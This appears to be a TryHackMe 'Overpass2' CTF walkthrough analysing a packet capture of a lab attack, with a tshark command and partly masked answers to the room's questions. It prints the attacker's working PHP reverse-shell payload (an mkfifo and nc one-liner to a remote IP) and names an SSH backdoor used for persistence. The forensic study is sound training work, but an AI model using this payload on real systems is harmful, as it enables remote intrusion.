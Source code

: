 # Overpass2 TryHackme Walkthrough

<p align="center">
  <img width="400" height="400" src="https://github.com/ceortiz33/tryhackme/blob/main/OverPass2/images/overpass2.png">
</p>


## Forensics - Analyze the PCAP
Para esta seccion se utiliza un archivo PCAP que nos entregan como evidencia de un ataque.

```
tshark -r overpass2.pcapng -T fields -e ip.dst | sort | uniq -c
```

```
   1463 140.82.118.4
      2 192.168.170.138
    262 192.168.170.145
   2113 192.168.170.159
      2 192.168.170.2
      1 192.168.170.254
      3 224.0.0.22
      4 224.0.0.251
     14 239.255.255.250
      1 91.189.91.157
```






### What was the URL of the page they used to upload a reverse shell?

```
/dev********/
```

### What payload did the attacker use to gain access?

```
&lt;?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

### What password did the attacker used to get access?

```
when******************
```

### How did the attacker establish persistence?

```
https://github.com/*********/ssh-backdoor
```

Using the fasttrack wordlist, how many of the system passwords were crackable?

```
*    A value between 2 and 5
```




